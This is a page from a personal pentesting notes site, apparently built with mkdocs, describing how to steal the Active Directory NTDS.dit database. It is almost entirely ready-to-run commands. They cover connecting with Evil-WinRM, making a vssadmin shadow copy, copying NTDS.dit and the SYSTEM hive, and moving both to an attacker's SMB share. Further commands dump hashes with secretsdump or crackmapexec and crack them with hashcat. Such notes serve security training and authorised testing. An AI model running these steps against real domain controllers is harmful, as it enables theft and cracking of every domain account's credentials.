

repository: amandaguglieri/hackinglife · page: attacking-ntds/index.html · generator: mkdocs

---
title: Attacking NTDS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
# Attacking NTDS

By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller. The .dit stands for directory information tree. 

## Alternative #1: vssadmin (locally)

**1.** Connecting to a DC with Evil-WinRM

```shell-session
evil-winrm -i $DomainControllerIP  -u $username -p $password
# Example:
# evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

**2.** Checking Local Group Membership

```shell-session
net localgroup
```

**3.** Checking User Account Privileges including Domain

```shell-session
net user $username
# Example: 
# net user bwilliamson
```

**4.** Creating Shadow Copy of C: We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install.

```shell-session
vssadmin CREATE  SHADOW /For=C:
```

Results:

```
Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**5.** Copying NTDS.dit from the VSS: We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

**6.** We will also need either the SYSTEM hive or bootkey is required for local parsing. So let's save the system hive

```cmd
reg.exe save hklm\system C:\system.save
```

**7.** Transfer file to attacking machine. For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
cmd.exe /c move system.save \\$ipAttacker\CompData

# If you have a cmd terminal
move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData

```

**8.** Extract and crack ntds.dit locally:

```bash
python ~/tools/impacket/examples/secretsdump.py -ntds ~/borrar/NTDS.dit  -system ~/borrar/system.save -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```


## Alternative #2: crackmapexec (remotely)

```shell-session
crackmapexec smb $ip -u $username -p $password --ntds
# Example: 
# crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

Cracking a Single Hash with Hashcat

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```


## Alternative #3:  `DSInternals` module (locally)

The [DSInternals Framework](https://www.nuget.org/profiles/DSInternals) exposes several internal features of _Active Directory_ and can be used from any .NET application.
